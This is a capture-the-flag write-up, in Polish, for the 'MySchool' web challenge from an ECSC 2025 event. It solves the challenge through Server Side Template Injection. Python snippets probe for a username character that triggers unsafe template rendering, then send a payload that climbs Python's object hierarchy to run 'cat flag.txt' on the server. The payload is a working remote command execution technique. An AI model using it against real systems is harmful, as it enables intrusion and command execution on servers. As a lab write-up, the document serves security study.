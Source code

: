 # MySchool - web

### Vulnerability

Server Side Template Injection

### Solution

1. Znaleźć znak który pozwoli na wyświetleniu naszego nowego usera na stronie (unsecurely renderując template):
   ```python
   HOST = "https://myschool.ecsc25.hack.cert.pl/"
   # HOST = "http://localhost:8000"

   for x in range(256):
     session_id = requests.post(HOST + "/users/", json={
       "username": "test" + chr(x),
       "bio": "asdf"
     }).text[1:-1]

     resp = requests.get(HOST + "/users/?session_id=" + session_id).text
     if "asdf" in resp:
       print("char:", x) # \x20 (spacja)
       break
   ```
2. Wyexploitować SSTI i przeczytać flagę:
   ```python
   separator = "\x20"
   payload = """
   {{ ''.__class__.mro()[1].__subclasses__()[158].__init__.__builtins__["__import__"]("os").popen("cat flag.txt").read() }}
   """

   session_id = requests.post(HOST + "/users/", json={
     "username": "test\x20",
     "bio": payload
   }).text[1:-1]
   print(requests.get(HOST + "/users/?session_id=" + session_id).text) # ecsc25{NULL_is_not_always_False}
   ```
